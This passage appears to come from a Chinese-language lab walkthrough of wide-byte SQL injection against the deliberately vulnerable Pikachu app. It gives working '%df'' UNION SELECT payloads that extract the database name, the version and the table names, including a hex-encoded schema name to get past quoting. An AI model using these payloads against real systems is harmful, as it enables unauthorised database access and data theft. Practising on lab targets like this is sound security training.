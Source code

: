 

说明存在两个字段



查看当前数据库，输入

```plain
vince%df' union select 1,database()#
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882669157-6df1120e-b42c-4d94-9ece-d6877d237ee0.png)



查看所有表，输入

```plain
vince%df'  union select version(),table_name from information_schema.tables where table_schema='pikachu'#
```



报错，将pikachu改为十六进制

```plain
vince%df'  union select version(),group_concat(table_name) from information_schema.tables where table_schema=0x70696b61636875#
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882676239-180d6da6-c9ec-4017-b373-5224f7b496ca.png)
